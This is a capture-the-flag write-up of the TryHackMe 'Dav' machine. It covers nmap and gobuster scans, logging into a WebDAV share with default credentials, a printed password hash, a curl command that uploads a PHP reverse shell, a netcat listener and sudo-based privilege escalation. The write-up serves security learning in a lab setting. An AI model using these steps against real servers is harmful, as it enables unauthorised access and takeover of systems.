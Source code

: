 ```yaml
---
title: TryHackMe - Dav
author: Bonface
date: 2024-02-01 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - http
  - gobuster
  - crack
  - SUID
image:
  path: /assets/img/try%20hack%20me%20/Easy/Dav/0.jpeg
  alt: Dav
---
```


# Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

![](/assets/img/try%20hack%20me%20/Easy/Dav/1.png))

### gobuster
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

![](/assets/img/try%20hack%20me%20/Easy/Dav/2.png))

We get this directory known as `/weddav`  
![](/assets/img/try%20hack%20me%20/Easy/Dav/3.png))

Here i need a username and password.  
Did some research and got this default credentials.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/4.png))

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/5.png))

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`
Cracked the hash but got nothing much.  

I searched for web-dav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  

I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
![](/assets/img/try%20hack%20me%20/Easy/Dav/6.png))

Run nc cat on my machine then run the code.  
Got the shell and stabilized it.  
![](/assets/img/try%20hack%20me%20/Easy/Dav/7.png))  


Now it's just a matter of looking for the `user.txt `   
![](/assets/img/try%20hack%20me%20/Easy/Dav/8.png))

# Privilege Escalation
For this i always first run  
- `sudo -l`
- cat `/etc/crontab`

## sudo -l
![](/assets/img/try%20hack%20me%20/Easy/Dav/9.png))  
This was simple since the user can read any file with `sudo` without a password.  